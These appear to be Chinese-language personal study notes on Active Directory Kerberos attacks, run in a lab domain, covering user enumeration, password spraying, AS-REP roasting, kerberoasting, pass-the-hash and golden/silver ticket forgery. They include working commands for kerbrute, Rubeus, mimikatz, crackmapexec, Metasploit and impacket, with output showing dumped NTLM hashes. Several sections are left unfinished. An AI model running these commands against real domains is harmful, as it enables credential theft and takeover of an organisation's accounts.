


0x01 域内用户枚举
原理
根据kerberos协议中的AS-REQ阶段，不同用户状态（禁用、启用、不存在）时的不同响应实现枚举。
工具
-
kerbrute
地址：https://github.com/ropnop/kerbrute/releases/tag/v1.0.3 使用： .\kerbrute_windows_amd64.exe userenum --dc 192.168.1.200 -d xie.com user.txt ## user.txt 是字典，需要自己指定. ## --dc 指域控的IP ## xie.com 指域名 -
pykerbrute
可使用TCP和UDP两种模式枚举，没有用过...... -
msf中kerberos_enumusers 模块
没用过......
总结
-
依托字典
-
枚举产生过高流量，易被发现
-
无需在域环境也能实施。
0x02 密码喷洒
原理
密码爆破：单个或几个用户，极多密码。
密码喷洒：单个或几个密码，极多用户。
因为域内通常会存在账户锁定策略，所以尽量避免密码爆破攻击。
工具
- kerbrute(还是上面那个)
PS C:\Users\77629\Desktop> .\kerbrute_windows_amd64.exe passwordspray --dc 192.168.1.200 -d xie.com user.txt 123456Liu
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 02/05/24 - Ronnie Flathers @ropnop
2024/02/05 19:59:14 > Using KDC(s):
2024/02/05 19:59:14 > 192.168.1.200:88
2024/02/05 19:59:14 > [+] VALID LOGIN: administrator@xie.com:123456Liu
2024/02/05 19:59:14 > Done! Tested 6 logins (1 successes) in 0.007 seconds
### 注意选择 passwordspray 表示 启用密码喷洒模式。
- pykerbrute （可以使用hash进行喷洒）
该工具可使用ntml-hash 实现密码喷洒
地址：https://github.com/3gstudent/pyKerbrute.git
例如：
ADPwdSpray.py 192.168.1.1 test.com user.txt clearpassword DomainUser123! tcp
ADPwdSpray.py 192.168.1.1 test.com user.txt ntlmhash e00045bd566a1b74386f5c1e3612921b udp
-
domainpasswordspray
## 该工具提供了另一种形式的密码喷洒。 ## 原理是使用ldap自动获取账户，然后进行密码喷洒，因此只需要指定密码参数即可。 Import-Module DomainPasswordSpray.ps1 //导入模块 Invoke-DomainPasswordSpray -Password Spring2017 //使用 注意： 1.只能在域内机器中使用。 2.本身是ps脚本。
总结
- 枚举产生过高流量，易被发现
- 可以说是用户枚举的扩充。
0x03 AS-REP Roasting
原理
产生于AS-REP阶段。
指定用户向域控的88端口请求票据，域控不会进行认证就返回AS-REP中的TGT和该用户hash加密的login_session_key。
获取后，对 该用户hash加密的login_session_key 进行离线暴力破解。获取用户hash，甚至明文密码。
前提
- 需要关闭kerberos预身份验证。默认是开启的。作用是记录登陆失败次数，进行锁定，防止爆破。

如上图所示，为关闭的情况。
实施
步骤
1.获取hash。分为域内情况和域外情况。
2.离线爆破
域内情况下
- rubeus工具
GitHub上面不开放exe版本下载，需要自己去生成，我们先去GitHub下面下载：
https://github.com/GhostPack/Rubeus
解压后使用vs打开Rubeus.sln文件，点击生成->生成Rubeus即可，之后exe文件会生成在Rubeus\bin\Debug目录下。
用法：
rubeus.exe asreproast /format:john /outfile:hash.txt
该工具，自动搜集域内关闭与身份验证的用户,然后获取hash，并存为john能破解的文件格式。
- asrep roast .ps1脚本
原理与上面一致，没用过。。。
域外的情况下
先使用adfind查询 关闭域身份验证的用户 。然后使用impacket下的getnpusers.py获取hash
暂时没写
爆破
john –wordlist=xxx hash.txt
0x04 kerberoasting
原理
发生在kerberos认证的TGS_REP阶段。
TGS_REP中会响应一个由服务hash加密的ST给客户端，该ST是由服务hash加密的，因此客户端拿到ST后，可以用于本地离线爆破。
字典足够强大可以爆破到该服务账户的口令。
前提
- 攻击者和KDC协商ST加密时，使用RC4_HMAC_MD5算法，该算法易破解。若强制采用其他加密算法，如AES-256，将难以爆破。
- 以获取一个域内普通账户的凭证。需要以该用户去先获取TGT。
- 查询到用于注册域用户的SPN。
攻击流程
- 攻击者先用域内的正常账户进行AS过程的认证，获取到TGT
- 攻击者使用获取的TGT请求针对指定SPN的ST。
- 获取到ST后，攻击者开始本地离线破解。
实施 (见书234页，懒得写)
1.发现SPN
2.请求ST
3.破解ST
0x05 哈希传递(PTH)
原理
ntlm协议和kerberos协议都是使用ntml-hash来加密的，因此，当未能获取明文密码时，也可以使用ntlm-hash 进行哈希传递攻击。
局限
-
win server 2012R2以后的系统中新增了protected users组的概念，对加入此组的账户无法实施PTH攻击。
-
（默认情况下）由于UAC机制的存在，PTH的攻击对象只能是本地账户的administrator账户 和 域账户。本地普通账户和本地管理员组中的非administrator账户 均不可以。（不同版本的windows可能会有所区别，详细见书301页）
UAC的机制：见书297页。
实施
实施步骤：
1.获取hash
2.实施哈希传递攻击
获取hash（只能获取已经登陆用户的hash）
本质是抓取内存中的hash。
需要管理员权限。
使用mimikatz获取本地hash，需将工具上传至本地并执行，实际场景下还涉及到免杀。
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
c7418a726d8b057f8b88f5540e1a1f25
a4ef9e354320a1e304e5dd68fe3b1a2f
8d45ed7943afd7431f4dd1287e1cbacf779050d6
实施哈希传递攻击
- crackmapexec
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 192.168.1.200 -u administrator -H a4ef9e354320a1e304e5dd68fe3b1a2f
SMB 192.168.1.200 445 WIN-N4EHVKA9FGJ [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:WIN-N4EHVKA9FGJ) (domain:xie.com) (signing:True) (SMBv1:True)
SMB 192.168.1.200 445 WIN-N4EHVKA9FGJ [+] xie.com\administrator:a4ef9e354320a1e304e5dd68fe3b1a2f (Pwn3d!) ##成功
- MSF中的smb/psexec模块 实现横向移动。（使用mimikatz、impacket等工具也可以进行横向移动）
use exploit/windows/smb/psexec
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:78756282d1fcb13c8f94a368ab24235c ## LM-HASH:NTLM-HASH
set smbdomain XX.COM
set rhosts 172.16.X.X
exploit
0x06 票据传递攻击
一、黄金票据传递攻击
原理
产生于kerberos认证的AS-REP阶段。
该攻击的本质是伪造AS-REP包，包中存在TGT的加密部分内容，加密全部使用krbtgt账户的ntlm-hash。
因此获取krbtgt账户的ntlm-hash，即可伪造黄金票据，进行攻击。
注意
- 获取krbtgt的ntlm-hash的前提是拿下域控管理员权限才行。
- 只适用于后渗透权限维持。
伪造黄金票据的需求
- krbtgt账户的ntlm-hash。MSF的meterpeter 中运行 run windows/gather/smart_hashdump
meterpreter > run windows/gather/smart_hashdump
[*] Running module against WIN-N4EHVKA9FGJ
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20240206012358_default_192.168.1.200_windows.hashes_084970.txt
[+] Host is a Domain Controller
[*] Dumping password hashes...
[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:a4ef9e354320a1e304e5dd68fe3b1a2f
[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:02bbb271d87ce9fd0d6547f431a16666
[+] AD-kong:1000:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
[+] WIN-N4EHVKA9FGJ$:1001:aad3b435b51404eeaad3b435b51404ee:d64dc48790526c89e3929025f72ed9ce
————————————————————————————————————————————————————————————————————————————
用这个 02bbb271d87ce9fd0d6547f431a16666
- 域的SID值。使用 wmic useraccount get name,sid 查询。
C:\Windows\system32>wmic useraccount get name,sid
wmic useraccount get name,sid
Name SID
Administrator S-1-5-21-99781-1873236282-2985923340-500
Guest S-1-5-21-99781-1873236282-2985923340-501
krbtgt S-1-5-21-99781-1873236282-2985923340-502
AD-kong S-1-5-21-99781-1873236282-2985923340-1000
————————————————————————————————————————————————————————————
用这个 S-1-5-21-99781-1873236282-2985923340
- 域名。使用ipconfig/all 查询。

- 要伪造的账户，一般写高权限账户。如，administrator。
利用过程
- 使用impacket
1.生成黄金票据
python3 ticketer.py -nthash 02bbb271d87ce9fd0d6547f431a16666 -domain-sid S-1-5-21-99781-1873236282-2985923340 -domain xie.com administrator
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ python /usr/share/doc/python3-impacket/examples/ticketer.py -nthash 02bbb271d87ce9fd0d6547f431a16666 -domain-sid S-1-5-21-99781-1873236282-2985923340 -domain xie.com administrator
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for xie.com/administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncAsRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncASRepPart
[*] Saving ticket in administrator.ccache
-----------------------------------------------
2.导入票据
export KRB5CCNAME=administrator.ccache
3.导出用户administrator的hash
。。。。后面没成功，以后再复现吧。
python3 psexec.py -k -n fsec.cn/test1@2008-1 cmd
二、白银票据传递攻击
原理
产生于kerberos认证的TGS-REP阶段。
该攻击的本质是伪造TGS-REP包，包中存在ST的加密部分内容，加密全部使用该服务账户的ntlm-hash。
因此获取服务账户的ntlm-hash，即可伪造白银票据，进行攻击。
注意
- 获取服务账户的ntlm-hash的前提是拿下域控管理员权限才行。
- 只适用于后渗透权限维持。
伪造白银票据需要
- 服务账户的ntlm-hash
- 域的SID值
- 域名
- 伪造的域用户
…….没写
三、黄金和白银票据的区别
- 黄金票据：伪造TGT，可以用高权限访问任意服务。
使用krbtgt账户的ntml-hash 加密。
还需要与KDC的TGS通信，获得ST，因此会在域控中留下日志。
- 白银票据：伪造ST，可以用高权限访问指定的服务。
使用指定服务的账户的ntml-hash 加密。
无需与KDC通信，只会在目标服务器留下日志。
0x07 委派攻击
简介
目的是为了提供更加便利的域内身份认证。
委派指：将域用户的权限委派给服务账户，让服务账户以域用户的权限去访问其他域内的服务。
只有服务账户才具备委派属性。